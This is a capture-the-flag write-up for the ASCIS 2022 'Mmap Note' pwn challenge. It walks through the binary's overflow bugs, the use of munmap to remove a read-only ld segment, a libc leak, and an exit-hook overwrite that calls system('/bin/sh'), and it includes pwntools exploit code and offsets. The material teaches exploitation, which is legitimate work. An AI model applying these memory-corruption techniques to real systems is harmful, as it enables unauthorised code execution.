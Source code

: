 # ASCISQuals 2022 - Mmap Note

![mmapnote.png](images/mmapnote.png)

You can download challenge file here: [mmapnote.zip](mmapnote.zip)

Download, extract and use `pwninit` to patch the libc to binary, then we can get started!

```diff
! Updated intended solution! 
```

<details>
    <summary>Expand me</summary>
<p>
The solve script is the file [solve_1_fix.py](solve_1_fix.py) with some updates from solve_1.py. The problem is because the mmaped address of 0x2000-byte note on server is before ld address, not libc.

To create an mmaped address of 0x2000-byte note which before libc, we will mmap 2 more 0x2000-byte note first so that the address range won't fit for the third mmap with size 0x2000. Hence, we get the mmaped address before libc with the third note.
</p>

# 1. Find bug

First, let's check for all the basic information:

```bash
$ file chall
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld.so.6, for GNU/Linux 3.2.0, BuildID[sha1]=bd0e1603834dcba34b23495f6a6955e84e833281, not stripped

$ checksec chall
┏━━━━━━━┳━━━━━━━━┳━━━━━┳━━━━━┓
┃ Relro ┃ Canary ┃ NX  ┃ PIE ┃
┃       ┃        ┃     ┃     ┃
┡━━━━━━━╇━━━━━━━━╇━━━━━╇━━━━━┩
│ Full  │  Yes   │ Yes │ Yes │
└───────┴────────┴─────┴─────┘
```

So this is a 64-bit file without being stripped and all the defences are on. In fact, this challenge is not a heap one, it will create chunk via mmap and delete it via munmap.

Open the binary with IDA, we can see at first, there is a **Buffer Overflow** bug in function `readchoice`:

![readchoice.png](images/readchoice.png)

With this bug, if we can leak or overwrite the original canary with our desired value and then we can make a simple ret2libc to get shell. Next, we will analyze the function `add`:

![add.png](images/add.png)

In function `add`, the program will ask for index and size. However, it input directly to the variable `gSize` so remember this and we will discuss about it later. The program will allow note with size from 0 to 0x2000 and execute mmap to create a new mmaped address with the corresponding size. After that, it generate the name for the note with function `generate_name`:

![generate-name.png](images/generate-name.png)

In short, it will take each 4 bits of address and get the corresponding character in the array `alphabet` which is defined as follows:

![alphabbet-variable.png](images/alphabbet-variable.png)

Let's take an example with address `0x7ffff7ffa000`:

```python3
>>> alphabet = 'MmApIsSafeDoNtYOuThink'
>>> addr = 0x7ffff7ffa000
>>> alphabet[ (addr >> 0) & 0xf ]
'M'
>>> alphabet[ (addr >> 4) & 0xf ]
'M'
>>> alphabet[ (addr >> 8) & 0xf ]
'M'
>>> alphabet[ (addr >> 12) & 0xf ]
'D'
>>> alphabet[ (addr >> 16) & 0xf ]
'O'
>>> alphabet[ (addr >> 20) & 0xf ]
'O'
>>> alphabet[ (addr >> 24) & 0xf ]
'a'
>>> alphabet[ (addr >> 28) & 0xf ]
'O'
>>> alphabet[ (addr >> 32) & 0xf ]
'O'
>>> alphabet[ (addr >> 36) & 0xf ]
'O'
>>> alphabet[ (addr >> 40) & 0xf ]
'O'
>>> alphabet[ (addr >> 44) & 0xf ]
'a'
```

Finally, we got the name is `MMMDOOaOOOOa`. Hence, we can get the mmaped address back with its name via function `show` so that maybe we can leak libc address later. With regard to function `show`, it just simply prints the name of notes and ask for index to print the data of specific note.

The last function is `edit`:

![edit.png](images/edit.png)

It will get data to the specific note with the size taken from gSize with corresponding index. This is where the bug occur with the note I have told you to remember and we will discuss it now.

Let's take an example: at first, you mmap a chunk at index 0 with size 0x1000 and then, you create a chunk at index 0 with size 0x3000. As expected, the program will return with a string `Why your note take so much space? Add another one...` but the size of note 0 changed because it is inputted directly to gNote[idx] --> Another **Buffer Overflow** but in mmaped address.

Keep going and we will see what we can do with those bugs found!

# 2. Idea

At first, my plan was simple. We know we can leak the mmaped address and if check in gdb, we can see that it's before the fs segment. The highlighted address is the address of mmaped section:

![get-mmap-address.png](images/get-mmap-address.png)

Check with command `vmmap` or `info proc mappings` and we can see that our mmaped address is before libc address:

![check-mmaped-address.png](images/check-mmaped-address.png)

If we find the address of canary, we can see that its address is between our mmaped address and libc address:

![get-address-of-original-canary.png](images/get-address-of-original-canary.png)

The address for fs segment can be calculated by address of canary subtract with 0x28 so for a clear view, we could split the mmaped address with the virtual address as following:

```gdb
0x00555555559000 0x0055555555c000 0x00000000005000 rw- /home/johnathanhuutri/mmapnote/chall
0x007ffff7d8f000 0x007ffff7d91000 0x00000000000000 rw- [mmaped section]
0x007ffff7d91000 0x007ffff7d94000 0x00000000000000 rw-
0x007ffff7d94000 0x007ffff7dbc000 0x00000000000000 r-- /home/johnathanhuutri/mmapnote/libc.so.6
```

To obtain the address before libc, we need to create an mmaped address with size from 0x1001 to 0x2000, And with the ability to change size of note, we can overwrite the original canary with desired value, we can also easily get the base address of libc because the distance between our mmaped address and libc is always 0x5000 byte. We can get shell with just a simple ret2libc after that. But sadly, it just work for local machine, local docker, local ubuntu 22.04 built on vmware and not for server. You can check my script here: [solve_1.py](solve_1.py)

So we need to find another way. As I was advised, mmaping the new address can be different due to the difference in architect. It took me a while to find out the difference between my mmaped address vs server mmaped address. If you create 2 note with 2 different size as 0x1000 and 0x2000 and calculate the distance between 2 of them for local and server, it can be seen as follows.

This is the address for note with size 0x1000 and 0x2000 in my local machine, respectively:

![distance-between-0x1000-&-0x2000-mmap-address.png](images/distance-between-0x1000-&-0x2000-mmap-address.png)

If you subtract each other, the distance is 0x26b000. This is the address for note 0x1000 and 0x2000 on server, respectively:

![distance-between-0x1000-&-0x2000-mmap-address-2.png](images/distance-between-0x1000-&-0x2000-mmap-address-2.png)

If you subtract each other, the distance is 0x3b000, much smaller that our local machine. Now, if we take the address of 0x1000-byte note as base address and subtract with the distance of server, we can see that the address for 0x2000-byte note is just before address of ld, not libc, so we can split those addresses as example (Note that the below addresses are on docker 22.04):

```gdb
0x0055fffc2d2000 0x0055fffc2d3000 0x00000000007000 rw- /home/user/chall
0x007fabebbc9000 0x007fabebbcb000                  rw-      [0x2000 bytes, LOCAL]
0x007fabebbcb000 0x007fabebbce000 0x00000000000000 rw-
0x007fabebbce000 0x007fabebbf6000 0x00000000000000 r-- /home/user/libc.so.6
0x007fabebbf6000 0x007fabebd8b000 0x00000000028000 r-x /home/user/libc.so.6
0x007fabebd8b000 0x007fabebde3000 0x000000001bd000 r-- /home/user/libc.so.6
0x007fabebde3000 0x007fabebde7000 0x00000000214000 r-- /home/user/libc.so.6
0x007fabebde7000 0x007fabebde9000 0x00000000218000 rw- /home/user/libc.so.6
0x007fabebde9000 0x007fabebdf8000 0x00000000000000 rw-
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6
0x007fabebe2f000 0x007fabebe30000                  rw-      [0x1000 bytes, BOTH LOCAL AND SERVER]
0x007fabebe30000 0x007fabebe32000 0x00000000037000 r-- /home/user/ld.so.6
```

So if we take the 0x1000-byte note address `0x007fabebe2f000` and subtract with 0x3b000, the result is `0x7fabebdf4000` so the address for 0x2000-byte note on server will be like this:

```gdb
0x0055fffc2d2000 0x0055fffc2d3000 0x00000000007000 rw- /home/user/chall
0x007fabebbc9000 0x007fabebbcb000                  rw-      [0x2000 bytes, LOCAL]
0x007fabebbcb000 0x007fabebbce000 0x00000000000000 rw-
0x007fabebbce000 0x007fabebbf6000 0x00000000000000 r-- /home/user/libc.so.6
0x007fabebbf6000 0x007fabebd8b000 0x00000000028000 r-x /home/user/libc.so.6
0x007fabebd8b000 0x007fabebde3000 0x000000001bd000 r-- /home/user/libc.so.6
0x007fabebde3000 0x007fabebde7000 0x00000000214000 r-- /home/user/libc.so.6
0x007fabebde7000 0x007fabebde9000 0x00000000218000 rw- /home/user/libc.so.6
0x007fabebde9000 0x007fabebdf4000 0x00000000000000 rw-
0x007fabebdf4000 0x007fabebdf6000                  rw-      [0x2000 bytes, SERVER]
0x007fabebdf6000 0x007fabebdf8000 0x00000000000000 rw-
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6
0x007fabebe2f000 0x007fabebe30000                  rw-      [0x1000 bytes, BOTH LOCAL AND SERVER]
0x007fabebe30000 0x007fabebe32000 0x00000000037000 r-- /home/user/ld.so.6
```

You see, it just before address of ld. Why I'm so sure that the address for 0x2000-byte note on server is as above? It is because after the first way above, I then fuzz by changing the size of 0x2000-byte note in gSize to 0x10000 and then input from 0 byte to 0x10000 bytes, the program will disconnect when we input more than 0x4000 byte. With the calculated address as we have assumed above, it seems correctly because if we get the address `0x007fabebdf4000`, we can input just 0x4000 byte. We can assume that the mmaped address of server work as above.

It's time to think for another way to get shell. For me, I can see that with 0x2000-byte note, we cannot change anything of ld and maybe that's unnecessary. I then attack to the 0x1000-byte note because we know that we have vulnerable exit when the option is wrong, and if we can overwrite the exit hook, we can execute anything we want.

We know when can change the size and when it munmap, it will take that changed size to unmap so I feel it's similar to an advanced technique called `House of Muney`. Let's take the address range above to analyze:

```gdb
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6
0x007fabebe2f000 0x007fabebe30000                  rw-      [0x1000 bytes, BOTH LOCAL AND SERVER]
0x007fabebe30000 0x007fabebe32000 0x00000000037000 r-- /home/user/ld.so.6
0x007fabebe32000 0x007fabebe34000 0x00000000039000 rw- /home/user/ld.so.6
```

This is the mmap address when we create 0x1000-byte note (we are assuming that address for both local and server in the same range and same format, I dunno how to call it :D). We can see that there is a just read address range at `0x007fabebe30000` to `0x007fabebe32000` and we know that the address of exit hook is in range from `0x007fabebe32000` to `0x007fabebe34000`, which is writable.

The idea is to take advantage of munmap to remove the section `r--` at `0x007fabebe30000` by changing the size to 0x3000 so if it execute `munmap(0x007fabebe2f000, 0x3000)`, we can get rid of that read only section:

```gdb
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6

0x007fabebe32000 0x007fabebe34000 0x00000000039000 rw- /home/user/ld.so.6
```

After that, when we mmap 0x1000-byte note, it will be placed right before the `rw-` section of ld:

```gdb
0x007fabebdf8000 0x007fabebdfa000 0x00000000000000 r-- /home/user/ld.so.6
0x007fabebdfa000 0x007fabebe24000 0x00000000002000 r-x /home/user/ld.so.6
0x007fabebe24000 0x007fabebe2f000 0x0000000002c000 r-- /home/user/ld.so.6

0x007fabebe30000 0x007fabebe32000                  rw-      [0x1000 bytes, BOTH LOCAL AND SERVER]
0x007fabebe32000 0x007fabebe34000 0x00000000039000 rw- /home/user/ld.so.6
```

That seems interesting now, right? Now, we just change the size in gSize and use edit to input until we concatenate with a libc address (because function readline doesn't put null byte at the end of our input buffer), then use show to get libc address leaked. After that, we attack the exit hook to get shell.

Phew, quite long but that's the actual progress I made while solving this chall. Let's move on in detailed steps!

# 3. Exploit

Before we dive into exploitation, I made some functions for convenient use:

<details>
	<summary>Code snippet</summary>

<p>

```python
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)

def create(idx, size, data):
    sla(b' : ', b'1')
    sla(b'Index: ', str(idx).encode())
    sla(b'Size: ', str(size).encode())
    sla(b'note: ', data)

def edit(idx, data):
    sla(b' : ', b'2')
    sla(b'Index: ', str(idx).encode())
    sla(b'note: ', data)

def show(idx):
    sla(b' : ', b'3')
    sla(b'? ', str(idx).encode())

def delete(idx):
    sla(b' : ', b'4')
    sla(b'Index: ', str(idx).encode())
```

</p>
</details>

### Stage 1: Take advantage of munmap

As I have explained above, we will want to get rid of the read only section so we have the following script:

```python
create(0, 0x1000, b'0')
sla(b' : ', b'1')
sla(b'Index: ', str(0).encode())
sla(b'Size: ', str(0x3000).encode())
delete(0)
```

It just simply execute `munmap(<mmaped-address>, 0x3000)`. This is before we execute munmap:

![before-execute-munmap.png](images/before-execute-munmap.png)

Continue executing and we can see the read only section is removed:

![after-execute-munmap.png](images/after-execute-munmap.png)

Let's move on!

### Stage 2: Leak libc address

Now, we will want to create one 0x1000-byte note which will lay right before the last `r-w` section. This is before we create new mmaped address:

![before-create-mmaped-address.png](images/before-create-mmaped-address.png)

After we created a new mmaped address:

![after-create-mmaped-address.png](images/after-create-mmaped-address.png)

so we will want to check if the `r-w` section of ld contains any libc address or not. Just checking it and we can see there is a libc address at `<ld-base-address> + 0xf18`:

![find-libc-address-in-ld.png](images/find-libc-address-in-ld.png)

The distance between our mmaped address and this address is 0x1f18 because our mmaped address is 0x1000 byte and this address is at `<ld-base-address> + 0xf18`. Now we will want to concatenate our input to this libc address and use function show to leak libc out:

```python
# Concatenate with libc address
create(0, 0x1000, b'0')
sla(b' : ', b'1')
sla(b'Index: ', str(0).encode())
sla(b'Size: ', str(0x3000).encode())
edit(0, b'A'*0x1f18)

# Leak libc address
sla(b' : ', b'3')
sla(b'? ', str(0).encode())
p.recvuntil(b'A'*0x1f18)
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x7e60
log.info(hex(libc_leak))
log.info(hex(libc.address))
```

Great! Let's move on.

### Stage 3: Exit hook attack

Now we will want to find the offset from our input to the exit hook. The easiest way is to use pattern and debug to test it:

```python
edit(0, cyclic(0x2000))
```

Attach with gdb and we can see it got segfault at exit hook:

![got-segfault.png](images/got-segfault.png)

Check 4 characters to find the offset:

![check-offset-to-exit-hook.png](images/check-offset-to-exit-hook.png)

We can use cyclic_find() in python to get the offset:

```python
>>> cyclic_find('baxa')
2688
```

So we know the offset. But wait, let's check the registers before we continue writing script:

![check-registers.png](images/check-registers.png)

You can see that? We can control the rdi because it's our payload. Let's get the offset with python:

```python
>>> cyclic_find('jacp')
6728
```

Nice. The idea is straightforward now: change exit hook to system and rdi to string `/bin/sh`:

```python
payload = b'A'*2688
payload += p64(libc.sym['system'])
payload = payload.ljust(6728, b'B')
payload += b'/bin/sh\x00'
edit(0, payload)
```

Then, we just choose the wrong option to execute vulnerable exit:

```python
sla(b' : ', b'5')
```

Full script: [solve_2.py](solve_2.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `ASCIS{M4st3r_0F_Mm4p,_pl3as3_tak3_th1s_fl4g_as_4n_hon0r_fr0m_w1ldc4t_eb816b596d}`